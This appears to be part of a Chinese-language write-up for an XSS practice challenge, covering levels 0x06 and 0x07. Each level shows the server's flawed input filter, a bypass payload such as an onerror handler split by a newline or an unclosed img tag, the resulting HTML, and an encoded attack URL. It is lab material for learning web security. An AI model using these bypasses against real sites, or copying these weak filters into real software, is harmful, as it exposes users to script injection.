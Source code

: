 ## 0x06

- server 源码

过滤 auto|on.*=|> ，使用换行绕过

```php
function render (input) {
  input = input.replace(/auto|on.*=|>/ig, '_')
  return `<input value=1 ${input} type="text">`
}
```

- 插入代码

```html
type="image" src=# onerror
=alert(1)
```

- 网页代码

```html
<input value=1 type="image" src=# onerror
=alert(1) type="text">
```

- URL

```url
http://xss.test/?input=type%3D%22image%22%20src%3D%23%20onerror%0A%3Dalert(1)
```

## 0x07

- server 源码

过滤 <\/?[^>]+> ，对<>括起来的内容进行过滤替换成空,但是由于HTML的容错性极高,所以,对于不闭合也能接受

```php
function render (input) {
  const stripTagsRe = /<\/?[^>]+>/gi

  input = input.replace(stripTagsRe, '')
  return `<article>${input}</article>`
}
```

- 插入代码

```html
<img src=# onerror=alert(1)
```

- 网页代码

```html
<article><img src=# onerror=alert(1) </article>
```
